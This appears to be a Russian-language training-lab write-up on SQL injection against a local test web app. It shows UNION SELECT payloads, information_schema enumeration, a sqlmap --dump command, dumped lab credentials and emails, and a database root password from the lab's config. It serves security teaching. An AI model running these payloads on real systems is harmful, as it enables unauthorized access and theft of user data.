 ### Получение данных через SQLi:

1. Выполню установку БД с web-страницы согласно заданию
http://192.168.1.17:8080

2. Начну смотреть данные с web-страницы
http://192.168.1.17:8080/task/

2.1. Здесь мне предложено ввести в качестве параметра id (видимо пользователя)

Добавляю параметр (id=1) и вижу результат с логином "admin"
http://192.168.1.17:8080/task?id=1
http://192.168.1.17:8080/task?id=2
...

#### Получение данных ["вручную"]

##### Переберу id от 1 до 10
http://192.168.1.17:8080/task?id=1 -- (admin)
http://192.168.1.17:8080/task?id=2 -- (Volk)
http://192.168.1.17:8080/task?id=3 -- (Matroskin)
http://192.168.1.17:8080/task?id=4 -- (Vinni-pukh)
http://192.168.1.17:8080/task?id=5 -- (Neznaika)
http://192.168.1.17:8080/task?id=6 -- (kotenok)
http://192.168.1.17:8080/task?id=7 -- (Karlson)
http://192.168.1.17:8080/task?id=8 -- (Kesha)
http://192.168.1.17:8080/task?id=9 -- (Volk2)
http://192.168.1.17:8080/task?id=10 -- (пусто)

Как видно, в этой таблице всего 9 записей
<br/>

##### Проверю id 0,-1
<a>http://192.168.1.17:8080/task/?id=0 -- (пусто)
<a>http://192.168.1.17:8080/task?id=-1 -- (пусто)
<br/>
##### Попробую подобрать запрос (в.т.ч. количество колонок)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1 -- -</a> (Неудачно) The used SELECT statements have a different number of columns
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1,1 -- -</a> (Неудачно) The used SELECT statements have a different number of columns
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT 1,1,1 -- -</a> (Удачно)
Предположу, что каждый запрос должен возвращать именно 3 колонки
<br/>

##### Получу список таблиц текущей БД (в строку)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(table_name SEPARATOR ';'),database(),null FROM information_schema.TABLES WHERE table_schema=database()-- -</a>

|Database|Tables|
|-|-|
|security|emails<br/>users|
<br/>

##### Получу имена колонок таблиц (всё так же в строку)
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(column_name SEPARATOR ';'),null,null FROM information_schema.COLUMNS WHERE table_schema=database() AND TABLE_NAME = 'users'-- -</a>

|Table|Columns|
|-|-|
|users|id<br/>username<br/>password|
<br/>

<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT null,GROUP_CONCAT(column_name SEPARATOR ';'),null FROM information_schema.COLUMNS WHERE table_schema=database() AND TABLE_NAME = 'emails'-- -</a>

|Table|Columns|
|-|-|
|emails|id<br/>email_id|
<br/>

##### Получу данные пользователя с id=9 из таблицы users
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT username,password,null FROM users WHERE id=9-- -</a>

|Login|Password|
|-|-|
|Volk2|Wa spoiuuuuu|
<br/>

##### Получу данные email пользователя с ником Vinni-pukh
<a>http://192.168.1.17:8080/task?id=-1' UNION SELECT GROUP_CONCAT(id,"-",email_id),null,null FROM emails -- -</a>

Из ранее полученных данных я знаю что у пользователя Vinni-pukh, id=4. Буду ориентироваться на эти данные
Получаю результат:
  |id (table users)|username|email|
  |-|-|-|
  |4|Vinni-pukh|honey_lover@otus-lab.com|
<br/>

---

#### Получение данных ["автоматически"] [SQLMap](https://github.com/sqlmapproject/sqlmap)
<br/>попробую снять дамп с БД...
<br/>python ./sqlmap.py -u "http://192.168.1.17:8080/task/?id=1" --dump
<br/>Готово

##### Получены файлы:
- users.csv
- emails.csv

##### Посмотрю таблицу users.csv

|id|password|username|
|-|-|-|
|1|kjhsd8@j0dfjk3$%jksli|admin|
|2|nu zayzc, nu pogodi!|Volk|
|3|a ya vse chawe zame4aiu, 4to menya kak budto kto-to podmenil|Matroskin|
|4|Ya tu4ka-tu4ka-tu4ka|Vinni-pukh|
|5|na Lune|Neznaika|
|6|Gav|kotenok|
|7|muwchina v samom rascvete sil|Karlson|
|8|pust vsegda budet Vovka |Kesha|
|9|Wa spoiuuuuu|Volk2|

Получен пароль пользователя Volk2
<br/>User: Volk2
<br/>Password: Wa spoiuuuuu

##### Посмотрю таблицу emails.csv
|id|email_id|
|-|-|
|1|admin@otus-lab.com|
|2|volchara1969@otus-lab.com|
|3|matroskin_is_prostokvashino@otus-lab.com|
|4|honey_lover@otus-lab.com|
|5|ne.znaika@otus-lab.com|
|6|kotenok@otus-lab.com|
|7|karlson@otus-lab.com|
|9|volk@otus-lab.com|

Получен почтовый ящик пользователя с ником Vinni-pukh (соответствие id=4)
<br/>User: Vinni-pukh (id=4 table Users)
<br/>Email: honey_lover@otus-lab.com

### Другой вариант получения всех таблиц и данных (обычный вход в БД MySQL)
(т.к. в docker-compose уже оставлен пароль администратора БД)
server: 192.168.1.17
port: 8989
login: root
password: Vdjo7#l-er

